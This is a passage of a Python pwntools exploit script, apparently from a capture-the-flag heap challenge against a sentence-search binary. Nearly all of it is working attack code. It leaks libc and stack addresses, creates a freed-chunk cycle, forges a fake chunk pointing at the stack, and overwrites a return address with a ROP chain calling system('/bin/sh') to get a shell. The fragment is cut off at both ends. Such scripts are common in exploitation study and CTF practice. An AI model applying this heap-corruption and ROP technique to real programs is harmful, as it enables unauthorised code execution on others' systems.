 ```python

    # this simply receives all input from the binary and discards it, which
    # makes parsing out the leaked address easier below.
    p.clean()

    # leak the libc address
    search('Enter')
    p.recvuntil('Found 64: ')
    leak = u64(p.recvline()[:8])
    p.sendline('n') # deleting it isn't necessary
    return leak

def index_sentence(s):
    p.sendline('2')
    p.sendline(str(len(s)))
    p.sendline(s)

def search(s):
    p.sendline('1')
    p.sendline(str(len(s)))
    p.sendline(s)

def make_cycle():
    index_sentence('a'*54 + ' d')
    index_sentence('b'*54 + ' d')
    index_sentence('c'*54 + ' d')

    search('d')
    p.sendline('y')
    p.sendline('y')
    p.sendline('y')
    search('\x00')
    p.sendline('y')
    p.sendline('n')

def make_fake_chunk(addr):
    # set the fwd pointer of the chunk to the address we want
    fake_chunk = p64(addr)
    index_sentence(fake_chunk.ljust(56))

def allocate_fake_chunk(binsh_addr, system_addr):
    # allocate twice to get our fake chunk
    index_sentence('A'*56)
    index_sentence('B'*56)

    # overwrite the return address
    buf = 'A'*30
    buf += p64(pop_rdi_ret)
    buf += p64(binsh_addr)
    buf += p64(system_addr)
    buf = buf.ljust(56, 'C')

    index_sentence(buf)

def main():
    stack_leak = leak_stack()

    # This makes stack_addr + 0x8 be 0x40
    stack_addr = stack_leak + 0x22 - 8

    log.info('stack leak: %s' % hex(stack_leak))
    log.info('stack addr: %s' % hex(stack_addr))

```